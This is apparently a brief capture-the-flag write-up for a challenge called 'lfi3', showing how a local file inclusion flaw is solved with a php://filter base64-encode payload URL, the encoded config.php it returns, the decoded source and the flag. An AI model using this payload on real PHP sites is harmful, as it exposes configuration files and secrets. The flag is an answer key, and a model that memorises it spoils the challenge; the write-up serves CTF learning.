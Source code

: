 # lfi3

## What it is

Almost the same as lfi1, but we don't have access to the source code.

## Solution

The solution is the same as for lfi1, except that the input given is concatenated with '.php'

Url: 
```
https://extprotect.secu-web.blackfoot.dev/?lang=php://filter/convert.base64-encode/resource=config
```

Base64 config.php:
```
PD9waHAKICAvLyBDb25ncmF0eiAhIEZMQUcgSVMgWk9CezN2M25fcHIwdF9jNG43X3N0MHBfbTN9Cj8+Cg==
```

Base64 decoded:
```
<?php
  // Congratz ! FLAG IS ZOB{3v3n_pr0t_c4n7_st0p_m3}
?>
```

flag: ```ZOB{3v3n_pr0t_c4n7_st0p_m3}```
